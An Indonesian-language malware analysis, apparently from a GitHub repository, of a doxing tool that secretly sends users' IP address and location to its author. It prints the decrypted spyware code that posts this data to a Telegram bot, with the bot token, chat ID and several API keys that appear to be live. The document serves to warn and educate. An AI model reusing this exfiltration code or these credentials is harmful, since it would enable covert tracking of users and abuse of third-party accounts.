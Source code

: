 # 3. Risiko Keamanan yang Teridentifikasi

## Peringatan

⚠️ **Perhatian Penting:**  
Repositori ini bertujuan untuk edukasi keamanan siber. Informasi di dalamnya membedah sebuah tools yang beredar di internet untuk menunjukkan risiko nyata dari menjalankan perangkat lunak dari sumber yang tidak terpercaya. Jangan pernah menjalankan tools asli yang dianalisis di sini.

## Pendahuluan

Setelah berhasil mendekripsi dan menganalisis kode sumber utama dari tools **DOXING-TOOLS** oleh Rolandino, kami menemukan beberapa risiko keamanan serius yang tersembunyi di dalamnya. Tools ini tidak hanya berfungsi sebagai alat pencarian data (doxing), tetapi juga mencuri data pribadi pengguna secara diam-diam dan mengirimkannya ke penulis tools melalui API Telegram.

File dekripsi lengkap dapat ditemukan di: [`/evidence/source_code/2_decrypted_source_code.py`](../evidence/source_code/2_decrypted_source_code.py).

## Risiko Utama

### 1. **Spyware Tersembunyi**

Fungsi utama yang ditemukan dalam kode sumber adalah spyware yang secara otomatis mengumpulkan data pribadi pengguna tanpa izin. Berikut adalah detailnya:

#### Fungsi Spyware

```python
TELEGRAM_BOT_TOKEN = "AAE5fo3b8v_CQVC2f2M3SscdLqHfBGeux50"
TELEGRAM_CHAT_ID = "7413457967"

def send_to_telegram(message):
    url = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendMessage"
    data = {"chat_id": TELEGRAM_CHAT_ID, "text": message}
    try:
        requests.post(url, data=data)
    except:
        pass

def collect_and_send_user_info():
    try:
        ip_data = requests.get("https://ipinfo.io/json").json()
        msg = f"""New Access
IP: {ip_data.get('ip')}
City: {ip_data.get('city')}
Country: {ip_data.get('country')}
Org: {ip_data.get('org')}
"""
        send_to_telegram(msg)
    except:
        pass

# Fungsi ini dipanggil secara otomatis saat skrip dijalankan
collect_and_send_user_info()
```

#### Analisis Fungsi

- **Pengumpulan Data Pengguna:**  
  Fungsi `collect_and_send_user_info()` mengumpulkan informasi pribadi pengguna, termasuk:
  
  - **Alamat IP Publik:** Digunakan untuk melacak lokasi pengguna.
  - **Kota dan Negara:** Memberikan lokasi geografis pengguna.
  - **Penyedia Layanan Internet (ISP):** Mengungkapkan penyedia layanan internet yang digunakan pengguna.

- **Pengiriman Rahasia:**  
  Semua informasi tersebut dikirimkan secara diam-diam ke akun Telegram milik penulis tools menggunakan token bot (`TELEGRAM_BOT_TOKEN`) dan ID chat (`TELEGRAM_CHAT_ID`). Pengguna tidak akan menyadari bahwa data mereka sedang dicuri.

### 2. **Enkripsi Kode Sumber**

Kode sumber utama tools ini dienkripsi menggunakan teknik **Base64 berlapis**. Tindakan ini adalah indikator kuat bahwa penulis tools ingin menyembunyikan fungsi berbahaya dari pengguna. Enkripsi ini membuat kode sulit dibaca dan dianalisis, sehingga pengguna yang tidak waspada tidak akan mengetahui adanya spyware.

### 3. **Limitasi Penggunaan Harian**

Tools ini memiliki mekanisme limitasi penggunaan harian yang mencatat aktivitas pengguna dalam file JSON (`user_limit.json`). Hal ini menunjukkan bahwa penulis tools ingin memantau siapa saja yang menggunakan tools ini. Berikut adalah contoh implementasi limitasi penggunaan:

```python
LIMIT = 6
DATA_FILE = 'user_limit.json'

def load_data():
    if os.path.exists(DATA_FILE):
        with open(DATA_FILE, 'r') as f:
            return json.load(f)
    return {}

def save_data(data):
    with open(DATA_FILE, 'w') as f:
        json.dump(data, f)

def can_use(user_id):
    data = load_data()
    today = datetime.now().strftime('%Y-%m-%d')
    if user_id not in data:
        data[user_id] = {"date": today, "count": 0}
    if data[user_id]['date'] != today:
        data[user_id] = {"date": today, "count": 0}
    if data[user_id]['count'] < LIMIT:
        data[user_id]['count'] += 1
        save_data(data)
        return True, LIMIT - data[user_id]['count']
    else:
        return False, 0
```

#### Risiko:

- **Pengumpulan Metadata:**  
  File `user_limit.json` mencatat ID pengguna dan jumlah akses harian. Informasi ini dapat digunakan untuk melacak aktivitas pengguna.

- **Potensi Penyalahgunaan:**  
  Penulis tools dapat menggunakan metadata ini untuk tujuan yang tidak etis, seperti melacak pola aktivitas pengguna atau mengidentifikasi target tertentu.

### 4. **API Key yang Rentan**

Tools ini menggunakan banyak API key publik maupun premium untuk mengakses layanan eksternal. Beberapa API key rentan disalahgunakan jika jatuh ke tangan yang salah. Contohnya:

```python
API_KEY_NUMVERIFY = "d9fecb24eeb4f485fe8539ffa5ccfb45"
API_KEY_VERIPHONE = "E28C1E73072841F0A3CF93FFE936F369"
API_KEY_RAPIDAPI = "6f6be78672msh90081e9e01ae3adp1c3959jsn793c499831a8"
```

#### Risiko:

- **Penyalahgunaan API Key:**  
  Jika API key ini bocor, pihak ketiga dapat menggunakannya untuk melakukan serangan atau aktivitas ilegal lainnya.

- **Ketergantungan pada Layanan Eksternal:**  
  Tools ini bergantung pada ratusan API eksternal, yang dapat menjadi vektor serangan tambahan jika layanan tersebut rentan.

### 5. **Komunikasi dengan API Berbahaya**

Tools ini terhubung dengan beberapa API berbahaya yang dapat digunakan untuk tujuan ilegal, seperti:

- **Phishing Scanner:** Memeriksa URL untuk menentukan apakah itu phishing.
- **Malicious Scanner:** Menganalisis alamat IP atau domain untuk menentukan apakah itu berbahaya.
- **Dark Web Search:** Mencari data sensitif di dark web.

Contoh penggunaan API berbahaya:

```python
("https://malicious-scanner.p.rapidapi.com/rapid/url?url={query}", "rapidapi_maliciousscanner")
```

#### Risiko:

- **Eksploitasi Data Sensitif:**  
  API ini dapat digunakan untuk mencari data pribadi pengguna di dark web atau memverifikasi validitas nomor telepon, email, atau alamat IP.

## Kesimpulan

Tools **DOXING-TOOLS** oleh Rolandino bukan hanya alat doxing biasa, tetapi juga berfungsi sebagai spyware yang mencuri data pribadi pengguna secara diam-diam. Risiko keamanan utama meliputi:

1. Spyware tersembunyi yang mengumpulkan data pengguna.
2. Enkripsi kode sumber untuk menyembunyikan fungsi berbahaya.
3. Limitasi penggunaan harian yang mencatat aktivitas pengguna.
4. API key rentan yang dapat disalahgunakan.
5. Komunikasi dengan API berbahaya untuk tujuan ilegal.

Tools ini adalah contoh nyata bahaya menjalankan perangkat lunak dari sumber yang tidak terpercaya, terutama jika kode sumbernya disembunyikan. Kami sangat menyarankan agar komunitas selalu memeriksa kode sumber sebelum menjalankan perangkat lunak apa pun.

Untuk rekomendasi lebih lanjut tentang cara melindungi diri dari ancaman serupa, silakan baca file [**4_conclusion_and_recommendations.md**](analysis/4_conclusion_and_recommendations.md).